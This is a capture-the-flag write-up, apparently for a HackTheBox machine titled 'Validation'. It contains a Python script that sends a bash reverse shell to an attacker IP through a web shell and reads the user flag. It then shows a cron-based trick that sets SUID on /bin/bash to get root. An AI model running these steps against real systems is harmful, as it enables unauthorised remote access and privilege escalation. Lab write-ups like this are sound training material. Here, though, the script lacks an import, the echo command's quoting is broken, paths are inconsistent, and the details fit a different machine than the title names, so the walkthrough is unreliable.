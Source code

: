 ```yaml
---
title: Validation Machine HackTheBox
date: 2022-11-11 00:22:25 +0800
categories: [TOP_CATEGORIE, SUB_CATEGORIE]
tags: [machines]
---
```


# Description 

This machine will be pwned with a simple script, and a easy Priv Escalation

>So lets run the following script, which will get us into the machine and report us the flag
{: .prompt-tip}

```python
#!/usr/bin/python3

from pwn import *
import signal, requests, time, sys, os

def def_handler(sig, frame):
    print("\n\n[!] Saliendo...")
    sys.exit(1)

#Ctrl+Ctrl
signal.signal(signal.SIGINT, def_handler)

if len(sys.argv) != 2:
    print("Modo de uso: %s + <ip-address>" % sys.argv[0])
    sys.exit(1)

#Declaracion de variables globales

ip_address = sys.argv[1]
main_url = "http://%s/dev/phpbash.min.php" % ip_address
header = {"Content-Type": "application/x-www-form-urlencoded"}
lport = 7007

def getAccess():

    data_post = {
        'cmd' : 'cd /var/www/html/dev; bash -c "bash -i >&/dev/tcp/<YOUR____IP>/7007 0>&1"'
      }

    r = requests.post(main_url, data=data_post, headers=header)
    
    return r

if __name__ == '__main__':

    try:
        threading.Thread(target=getAccess, args=()).start()
    except Exception as e:
        log.error(str(e))

    shell = listen(lport, timeout=20).wait_for_connection()
    shell.sendline("cd /home/arrexel")
    time.sleep(2)
    shell.sendline("cat user.txt")
    shell.interactive()
```
We can run the command with the following command:

```bash
python3 file_name.py target_ip
```
>Now we can submit user flag
{: .prompt-info}

Now, all we gotta do is:

```bash

cd /script
echo "import os os.system("chmod u+s /bin/bash")" > test.py
```
But why?

Well, in /scripts we can see 2 files: test.txt and test.py, from where the text.py text is moved written to test.py,
so we can make /bin/bash a SUID

If we now wait 1 min, we can run:
```bash
/bin/bash -p
```
>And now we are able to cd into /root and submit the root flag!
{: .prompt-danger}
